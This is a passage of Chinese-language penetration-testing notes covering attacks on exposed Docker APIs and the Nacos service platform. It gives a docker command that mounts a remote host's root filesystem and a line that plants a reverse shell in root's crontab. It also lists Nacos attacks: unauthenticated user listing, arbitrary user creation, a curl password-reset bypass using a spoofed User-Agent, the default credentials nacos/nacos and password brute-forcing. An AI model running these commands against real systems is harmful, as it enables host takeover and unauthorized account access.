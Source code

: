 ```php
#挂载宿主机的根目录到容器内的 mnt 目录
docker -H tcp://<target>:2375 run -it -v /:/mnt nginx:latest /bin/bash
#反弹 shell
echo '反弹shell命令' >> /mnt/var/spool/cron/crontabs/root
```

## 2.4, Nacos

Nacos 是一个开源的动态服务发现、配置管理和服务管理平台，它提供了注册中心、配置中心和服务管理等功能，帮助开发人员实现微服务架构中的服务注册、配置管理以及服务发现等需求。

作为一个开源工具，漏洞还是被披露不少的，

**未授权访问：**[/nacos/v1/auth/users?pageNo=1&pageSize=1](http://192.168.80.131:8848/nacos/v1/auth/users?pageNo=1&pageSize=1) 直接查看用户

**任意用户添加**：POST [/nacos/v1/auth/users](http://192.168.80.131:8848/nacos/v1/auth/users?pageNo=1&pageSize=1) username= & password=

**任意用户密码修改**：curl -X PUT '[http://127.0.0.1:8848/nacos/v1/auth/users?accessToken](http://127.0.0.1:8848/nacos/v1/auth/users?accessToken)\\=' -H 'User-Agent:Nacos-Server' -d 'username\\=test1&newPassword\\=test2'

**弱口令**：nacos/nacos

![image.png](assets/1698900835-9700237e7294fbd41b6c24fdf1dc7404.png)

通过编排密码爆破进后台，发现大量配置文件，但敏感信息均被加密
